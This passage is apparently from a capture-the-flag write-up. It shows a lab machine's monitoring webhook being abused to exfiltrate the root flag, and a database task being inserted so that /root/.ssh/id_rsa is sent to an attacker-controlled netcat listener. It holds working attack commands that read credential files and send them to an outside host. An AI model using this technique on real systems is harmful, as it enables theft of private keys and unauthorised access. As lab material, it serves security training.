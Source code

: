     
    
    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.176 52386
    POST /exfil HTTP/1.1
    Host: 10.10.14.6:9001
    Accept: */*
    Content-type: application/json
    Content-Length: 140
    
    {"webhookUrl":"http:\/\/10.10.14.6:9001\/exfil","monitoredUrl":"\/root\/root.txt","health":"up","body":"1f58dc17************************\n"}
    

That’s the root flag.

#### Shell

To go for a shell, I’ll start by trying to read `/root/.ssh/id_rsa`:

    
    
    mysql> insert into tasks (id, webhookUrl, onlyError, monitoredUrl, frequency) values ('223', 'http://10.10.14.6:9001/exfil', 0, '/root/.ssh/id_rsa', '* * * * *');
    Query OK, 1 row affected (0.00 sec)
    
    mysql> select * from tasks;                                                                                                                
    +-----+------------------------------+-----------+-------------------+-----------+------------+------------+
    | id  | webhookUrl                   | onlyError | monitoredUrl      | frequency | created_at | updated_at |
    +-----+------------------------------+-----------+-------------------+-----------+------------+------------+
    | 223 | http://10.10.14.6:9001/exfil |         0 | /root/.ssh/id_rsa | * * * * * | NULL       | NULL       |
    +-----+------------------------------+-----------+-------------------+-----------+------------+------------+
    1 row in set (0.00 sec)
    

When the minute turns, I get the key:

    
    
    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.176 42814
    POST /exfil HTTP/1.1
    Host: 10.10.14.6:9001
    Accept: */*
    Content-type: application/json
    Content-Length: 1829
    Expect: 100-continue
    